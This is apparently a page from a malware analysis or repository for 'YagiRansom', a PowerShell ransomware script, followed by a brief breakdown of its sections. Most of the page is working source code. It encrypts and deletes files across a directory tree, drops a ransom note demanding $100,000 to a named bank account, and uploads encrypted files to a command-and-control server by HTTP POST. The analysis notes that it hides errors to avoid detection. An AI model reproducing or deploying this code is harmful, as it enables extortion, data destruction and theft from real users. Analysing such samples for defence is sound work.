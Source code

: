 ```powershell
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```
### PowerShell code block analysis
- Section:
   - `#Design`: Suppresses the PowerShell errors and messages to avoid detection, detects if the system is Windows or not. If the system is Windows, changes the terminal to `YagiRansom` and changes the background to black and foreground to white.
   - `#Error`: Checks if all the required parameters are provided; if not, prints an error and exits.
   - `#Proxy Aware`: Ensures the script uses the system proxy settings as well as compatibility with multiple TLS (Transport Layer Security) protocols.
   - `#Functions`: There are many functions in this section.
     - `$OgE`: Stores the machine name.
     - `$zVSza`: Stores the username.